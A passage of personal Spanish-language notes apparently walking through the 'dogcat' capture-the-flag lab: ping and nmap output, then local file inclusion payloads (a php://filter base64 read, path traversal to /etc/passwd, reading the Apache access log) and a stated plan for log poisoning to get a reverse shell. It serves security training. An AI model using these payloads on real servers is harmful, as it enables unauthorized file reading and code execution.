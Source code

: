 ### Ping
```python
ping -c 1 10.10.183.95
PING 10.10.183.95 (10.10.183.95) 56(84) bytes of data.
64 bytes from 10.10.183.95: icmp_seq=1 ttl=63 time=252 ms

--- 10.10.183.95 ping statistics ---
1 packets transmitted, 1 received, 0% packet loss, time 0ms
rtt min/avg/max/mdev = 251.536/251.536/251.536/0.000 ms
```
###### TTL=63 Maquina Linux

### nmap
```python
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 24:31:19:2a:b1:97:1a:04:4e:2c:36:ac:84:0a:75:87 (RSA)
|   256 21:3d:46:18:93:aa:f9:e7:c9:b5:4c:0f:16:0b:71:e1 (ECDSA)
|_  256 c1:fb:7d:73:2b:57:4a:8b:dc:d7:6f:49:bb:3b:d0:20 (ED25519)
80/tcp open  http    Apache httpd 2.4.38 ((Debian))
|_http-server-header: Apache/2.4.38 (Debian)
|_http-title: dogcat
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 44.48 seconds
```

| PORT   | STATE | SERVICE | VERSION                                                      |
| ------ | ----- | ------- | ------------------------------------------------------------ |
| 22/tcp | open  | ssh     | OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0) |
| 80/tcp | open  | http    | Apache httpd 2.4.38 ((Debian))                               |
### Enumeración del puerto 80

![[Pasted image 20240228172752.png]]
###### al hacer click en los botones las imagenes y los gatos son aleatorios. tambien tenemos un = por lo que podemos intentar un PATH traversal
![[Pasted image 20240228173259.png]]
###### ok parece que están sanetizando de alguna manera este archivo así que vamos a intentar baypasearlo con una técnica de direcroty traversal 
```python
/?view=php://filter/read=convert.base64-encode/resource=./dog/../index
```
este comando nos ayuda a hacer el llamado al recurso y encodearlo en base64 
![[Pasted image 20240228174008.png]]
###### esta respuesta nos afierma que es vulnerable a esta inyeccion asi que probamos el siguiente
```python
/?view=./dog/../../../../../../../etc/passwd&ext=
```

![[Pasted image 20240228174831.png]]
###### perfecto. miramos el codigo fuente
![[Pasted image 20240228175200.png]]
###### parece que podemos ver el archivo /etc/passwd 
sin embargo no tenemos nungun hash por lo que puedo pensar que tendremos que apuntar al log y envenenarlo(Log Poisoning)

```python
	GET /?view=./dog../../../../../../var/log/apache2/access.log&ext= HTTP/1.1
```
podemos ver el access.log asi que tendremos que aplicar la tecnica Log Poisoning para envenenar el log de acceso y poder unyectar una reverse shell

![[Pasted image 20240228190816.png]]